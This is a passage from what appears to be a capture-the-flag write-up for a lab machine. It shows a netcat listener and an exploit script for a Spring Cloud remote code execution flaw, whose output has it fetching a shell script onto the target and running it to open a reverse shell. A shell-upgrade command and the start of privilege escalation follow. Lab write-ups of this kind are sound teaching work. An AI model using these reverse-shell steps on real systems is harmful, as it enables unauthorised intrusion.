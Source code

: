 After setting the target and attacking IP addresses and ports, we need to start a listener on the same port as defined by `lport`. 

```
nc -lvnp 4444
listening on [any] 4444 ...
```

Now we can run the exploit script to gain a reverse shell. 

```
python3 spring-cloud-rce.py
[+] Serving on port 8000
[!] Press Ctrl+C to stop the server
[+] Creating shell.sh in current Directory...
[++] Done
[+] Sending shell to /dev/shm/shell.sh...
[++] Done
[+] Giving the server time to process... 
TARGET-IP - - [10/Dec/2023 23:12:37] "GET /shell.sh HTTP/1.1" 200 -
        z z z z z
        z z z z 
        z z z 
        z z 
        z 
[++] Countdown finished!
[+] Making the shell executable...
[++] Done
[+] Executing shell...
[+] Server stopped.
```

If we navigate to our listener, we can see that we have received a reverse shell as the `frank` user. Make sure that you upgrade your shell with the following command:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

# Privilege Escalation

Now that we've got a foothold on the system, let's take a look around. Our shell places us in the file system root (`/`). Upon opening up the `/home` directory, we see that there are two folders. 

```
frank@inject:/home$ ls -la
total 16
drwxr-xr-x  4 root  root  4096 Feb  1  2023 .
drwxr-xr-x 18 root  root  4096 Feb  1  2023 ..
drwxr-xr-x  5 frank frank 4096 Feb  1  2023 frank
drwxr-xr-x  3 phil  phil  4096 Feb  1  2023 phil
```

We can see that the user flag is inside `phil`'s home directory. The only problem is that we can't read it since it is only readable by the `root` user, and the `phil` group. 
